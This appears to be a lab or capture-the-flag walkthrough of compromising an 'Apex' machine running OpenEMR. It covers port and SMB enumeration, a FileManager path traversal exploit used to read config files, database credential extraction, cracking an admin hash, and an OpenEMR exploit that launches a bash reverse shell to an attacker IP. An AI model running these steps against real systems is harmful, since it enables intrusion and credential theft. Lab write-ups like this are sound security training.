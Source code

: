 # Apex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.145
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:07 +08
Nmap scan report for 192.168.183.145
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Interesting ports open.&#x20;

### SMB Enumeration

Using `smbmap`, we can find some shares that are open.

```
$ smbmap -H 192.168.183.145              
[+] Guest session       IP: 192.168.183.145:445 Name: 192.168.183.145                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        docs                                                    READ ONLY       Documents
        IPC$                                                    NO ACCESS       IPC Service (APEX server (Samba, Ubuntu))
```

The `docs` share just had some files related to OpenEMR:

```
$ smbclient -N //192.168.183.145/docs        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 23:47:12 2021
  ..                                  D        0  Fri Apr  9 23:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

### Web Enumeration -> FileManager LFI

Port 80 shows a medical website:

<figure><img src="../../../.gitbook/assets/image (3013).png" alt=""><figcaption></figcaption></figure>

SMB enumeration revealed that this website might be running a vulnerable version of OpenEMR, and there are quite a few RCE exploits for OpenEMR.

However, most of these require credentials. I scanned the website for potential directories to other services, and found a File Manager using `gobuster`:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.145 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.145
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 22:11:27 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.145/assets/]
/thumbs               (Status: 301) [Size: 319] [--> http://192.168.183.145/thumbs/]
/source               (Status: 301) [Size: 319] [--> http://192.168.183.145/source/]
/filemanager          (Status: 301) [Size: 324] [--> http://192.168.183.145/filemanager/]
```

When we visit `/filemanager`, we can see that it is running Responsive FileManager:

<figure><img src="../../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

There are a few exploits related to this:

```
$ searchsploit responsive FileManager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Responsive Filemanager 9.13.1 - Server-Side Request Forger | linux/webapps/45103.txt
Responsive FileManager 9.13.4 - 'path' Path Traversal      | php/webapps/49359.py
Responsive FileManager 9.13.4 - Multiple Vulnerabilities   | php/webapps/45987.txt
Responsive FileManager < 9.13.4 - Directory Traversal      | php/webapps/45271.txt
----------------------------------------------------------- ---------------------------------
```

The LFI works!

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /etc/passwd
[*] Copy Clipboard
[*] Paste Clipboard
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<TRUNCATED>
```

### SQL Creds -> RCE

Since we have LFI, we can try reading the SQL credentials that are present within OpenEMR (based on reading the OpenEMR Github repository).&#x20;

{% embed url="https://github.com/openemr/openemr/blob/master/sites/default/sqlconf.php" %}

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php 
[*] Copy Clipboard
[*] Paste Clipboard
```

There was something blocking us from reading PHP files here, and its probably the `.htaccess` file. Within the FileManager instance, I noticed that the same PDFs on SMB were present within it.

<figure><img src="../../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

The LFI exploit copies and pastes files into directories, and this means that we should be able to read the file from the SMB share. We just need to modify the `paste_clipboard` function within the exploit:

<figure><img src="../../../.gitbook/assets/image (2875).png" alt=""><figcaption></figcaption></figure>

After changing the directories a few times, I got it within the SMB share:

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard

$ smbclient -N //192.168.183.145/docs
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 11 22:30:24 2023
  ..                                  D        0  Tue Jul 11 22:20:07 2023
  sqlconf.php                         N      639  Tue Jul 11 22:30:24 2023
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

Here's its contents:

```php
$ cat sqlconf.php   
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';
```

Now we have some SQL creds, we can login to the database present.&#x20;

<figure><img src="../../../.gitbook/assets/image (606).png" alt=""><figcaption></figcaption></figure>

We can then find the credentials for OpenEMR:

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.176 sec)
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thedoctor        (?)     
1g 0:00:00:06 DONE (2023-07-11 22:36) 0.1474g/s 6430p/s 6430c/s 6430C/s versus..telmo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can run the RCE exploit for OpenEMR:

{% code overflow="wrap" %}
```
$ python2 45161.py -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1' http://192.168.183.145/openemr
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

The `root` user has the same password as the MySQL database of `thedoctor`:

<figure><img src="../../../.gitbook/assets/image (2575).png" alt=""><figcaption></figcaption></figure>
